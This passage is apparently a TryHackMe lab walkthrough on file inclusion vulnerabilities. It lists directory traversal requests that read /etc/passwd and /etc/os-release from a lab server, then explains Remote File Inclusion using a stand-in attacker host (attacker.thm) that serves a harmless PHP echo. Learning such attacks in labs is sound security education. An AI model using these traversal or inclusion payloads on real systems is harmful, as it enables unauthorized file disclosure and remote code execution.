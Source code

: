 http://10.10.109.41/lab6.php?file=THM-profile/../../../../etc/os-release
12.04.5 LTS
```

```
Give Lab #3 a try to read /etc/passwd. What is the request look like?
> /lab3.php?file=../../../../etc/passwd%00
```

```
Which function is causing the directory traversal in Lab #4?
> file_get_contents
```

```
Try out Lab #6 and check what is the directory that has to be in the input field?
> THM-profile
```

```
Try out Lab #6 and read /etc/os-release. What is the VERSION_ID value?
> 12.04
```

## Task 6 - Remote File Inclusion - RFI

### Remote File Inclusion - RFI

Remote File Inclusion (RFI) is a technique to include remote files and into a vulnerable application. Like LFI, the RFI occurs when improperly sanitizing user input, allowing an attacker to inject an external URL into ```include``` function. One requirement for RFI is that the ```allow_url_fopen``` option needs to be ```on```.

The risk of RFI is higher than LFI since RFI vulnerabilities allow an attacker to gain Remote Command Execution (RCE) on the server. Other consequences of a successful RFI attack include:
* Sensitive Information Disclosure
* Cross-site Scripting (XSS)
* Denial of Service (DoS)

An external server must communicate with the application server for a successful RFI attack where the attacker hosts malicious files on their server. Then the malicious file is injected into the include function via HTTP requests, and the content of the malicious file executes on the vulnerable application server.

![](images/b0c2659127d95a0b633e94bd00ed10e0.png)

### RFI steps
The following figure is an example of steps for a successful RFI attack! Let's say that the attacker hosts a PHP file on their own server ```http://attacker.thm/cmd.txt``` where ```cmd.txt``` contains a printing message ```Hello THM```.

```php
<?PHP echo "Hello THM"; ?>
```

